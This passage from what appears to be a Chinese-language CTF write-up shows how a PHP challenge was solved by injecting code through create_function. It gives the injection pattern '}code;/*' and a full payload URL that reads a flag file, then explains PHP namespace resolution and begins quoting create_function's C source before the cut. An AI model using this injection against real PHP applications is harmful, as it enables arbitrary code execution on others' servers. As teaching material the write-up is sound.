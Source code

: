 * 对于2. 满足条件的函数就需要通过PHP文档或搜索引擎查找，经过查找找到如下函数：

   ```php
   string create_function ( string $args , string $code )
   ```

   当控制点在第二个参数时利用的利用方式：

   ```php
   }code;/*
   ```

   所以最终payload如下

   ```php
   http://51.158.75.42:8087/?action=\create_function&arg=}echo%20file_get_contents("/var/www/flag_h0w2execute_arb1trary_c0de");/*
   ```
   ![image](flag.png)


   ### 三.背后的原理
#### 1.为什么"\create_function"等价于"create_function" —— php命名空间中有三种名称：

* 非限定名称 —— $person = new Human();若当前命名空间为current，则Human被解析为current\Human

* 限定名称 —— 若子命名空间为sub，$person = new sub\Human();则Human被解析为current\sub\Human

* 完全限定名称 —— $person = new \Human();

  在一个命名空间中，类的名称会优先被解析为current\classname，所以此时要访问PHP全局类要使用完全限定名称

  ```php
  <?php
  namespace A;
  class MYExection extends \Exception{
    ...
  }
  ...
  ```

  也就是说全局函数/类的默认命名空间就是"\\"，"\create_function"就相当于使用了"create_function"的完全限定名称

#### 2.为什么"create_function"可以执行代码，利用方式中"}code;/*"为什么要这样闭合：

* 要理解这两点，需要分析create_function的源代码

  ```c
  ...
  #define LAMBDA_TEMP_FUNCNAME	"__lambda_func"
  /* {{{ proto string create_function(string args, string code)
     Creates an anonymous function, and returns its name (funny, eh?) */
  ZEND_FUNCTION(create_function)
  {
      zend_string *function_name;
  	char *eval_code, *function_args, *function_code;
  	size_t eval_code_length, function_args_len, function_code_len;
  	int retval;
  	char *eval_name;

  	if (zend_parse_parameters(ZEND_NUM_ARGS(), "ss", &function_args, &function_args_len, &function_code, &function_code_len) == FAILURE) {
  		return;
  	}

  	eval_code = (char *) emalloc(sizeof("function " LAMBDA_TEMP_FUNCNAME)
  ```